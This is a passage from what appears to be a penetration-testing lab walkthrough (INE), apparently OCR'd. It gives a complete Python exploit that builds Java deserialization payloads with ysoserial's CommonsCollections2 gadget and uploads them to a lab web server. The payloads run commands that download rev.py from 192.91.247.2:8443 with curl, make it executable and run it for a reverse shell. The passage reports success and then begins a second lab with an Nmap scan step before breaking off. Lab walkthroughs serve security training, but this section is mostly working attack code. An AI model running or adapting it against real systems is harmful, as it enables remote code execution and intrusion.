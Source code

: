 Below you can find the full exploit code.

Save this as exploit.py and execute the file.

Command:
```bash
python exploit.py
```

Code:
```python
import requests
import time
import threading
import os
def readfile(filename):
  url = "http://demo.ine.local/upload/index.php?sent=OK"
  r = requests.get(url)
  print("[+] Used filename: " + filename)
  print(r.text)
  print("\n")

def upload(filename):
  url = "http://demo.ine.local/upload/upload.php"
  files ={'uploaded_file': open(filename, 'rb')}
  r = requests.post(url, files=files)
payload = 'CommonsCollections2'
commands = [
'"curl http://192.91.247.2:8443/rev.py -O rev.py"',
'"chmod +x rev.py"',
'"./rev.py"'
]

for command in commands:
  os.system("java -jar /root/Desktop/tools/ysoserial/ysoserial-master-SNAPSHOT.jar " + payload + " " + command + " > " + payload)
  x=threading.Thread(target=upload, args=(payload,))
  x.start()
  readfile(payload)
  time.sleep(2) 
```

> Successfully achieved remote code execution.



## Lab 2

Solution

Step 1: Start the lab. Wait until the lab is ready. Once the lab is ready, the kali Linux interface will be available on the browser.



Step 2: Scan the network with Nmap and gather the information about the target machine.
